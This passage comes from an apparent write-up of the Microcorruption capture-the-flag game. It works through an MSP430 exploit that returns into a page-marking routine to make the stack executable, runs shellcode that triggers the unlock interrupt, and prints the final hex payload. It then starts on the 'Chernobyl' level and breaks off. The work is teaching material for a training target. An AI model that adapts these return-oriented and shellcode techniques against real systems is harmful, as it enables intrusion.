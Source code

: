 ```
So in theory we can just put padded "unlock the door" code into the
first 16 bytes and then the address of that code in the next two.
However, the stack is marked as read/write but not as executable.
Thus we are going to have to do something else.

Clearly, we are only going to be able to return to code that already
exists within the program.  Further, there is code to make a page executable:

```
44b4 <mark_page_executable>
44b4:  0e4f           mov	r15, r14
44b6:  0312           push	#0x0
44b8:  0e12           push	r14
44ba:  3180 0600      sub	#0x6, sp
44be:  3240 0091      mov	#0x9100, sr
44c2:  b012 1000      call	#0x10
44c6:  3150 0a00      add	#0xa, sp
44ca:  3041           ret
```

Here, r14 contains the address of the page.  But if we return to, say,
0x44ba, and set up the stack with the index of the (0x100-byte-sized)
page of memory on the stack that we want to mark as executable: 0x3f,
as well as the 0 that this function will push, then we can return to
the start of the padding:

```{16 bytes of padding/shellcode}{0x44ba}{0x3f}{0}{return address}```

Further, there isn't a convenient INT function, so we will have to
reimplement its functionality, which appears to be setting the high
bit of sr, putting the interrupt number into the low 7 bits of the
high byte of sr, zeroing the low byte of sr, and calling 0x10:

```
mov #0xff00, sr
call #0x10
```

Or:

```324000ffb0121000```

Since the start of the stack is 3fee, we have:

```324000ffb01210004141414141414141ba443f000000ee3f```


# Levels in progress

## 18. Chernobyl

We run the program.  It declares that it accepts commands of the form
`access [name] [pin]`.  It seems to run on a loop.  Initial scan of
the code shows mallocs and printfs.  Maybe more heap and format string
stuff?

This program is long.  Let us break it down a little.  With the
assembly in `chernobyl/a.s`, we try for a crude, high-level
understanding of the program by looking at a very crude (but shell
scriptable!) approximation of the call graph:

```
$ cat chernobyl/a.s | grep '<'|grep -v '+'|grep -v '<_'
...
```
```